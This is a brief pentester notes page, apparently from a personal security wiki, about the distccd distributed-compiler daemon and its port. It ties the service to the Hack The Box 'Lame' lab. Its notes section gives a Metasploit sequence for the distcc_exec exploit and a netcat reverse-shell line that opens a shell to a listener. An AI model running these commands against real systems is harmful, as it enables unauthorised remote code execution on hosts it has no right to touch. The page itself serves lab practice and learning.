 # Distccd

<div class="row row-cols-lg-2"><div>

[Distccd](https://www.distcc.org/) stands for "Distributed Compiler Daemon." It's a program to speed up compilation by sharing the job between machines over the network. It is specific to compilation of C/C++ programs.

**Ports** 🐊: 3632 (TCP)

The last [release](https://github.com/distcc/distcc/releases) was released in 2021 🪦, but it's still updated.
</div><div>
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

[![lame](../../../../../cybersecurity/_badges/htb-p/lame.svg)](https://app.hackthebox.com/machines/Lame)

<div class="row row-cols-lg-2"><div>

You can try your luck with [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md):

```shell!
$ msfconsole -q
msf6> exploit/unix/misc/distcc_exec
msf6> set RHOSTS <IP>
msf6> set LHOST tun0
msf6> show payloads
msf6> set payload 6
msf6> run
nc -c sh <ip> 4444
```

The user is `uid=1(daemon) gid=1(daemon) groups=1(daemon)`.
</div><div>
</div></div>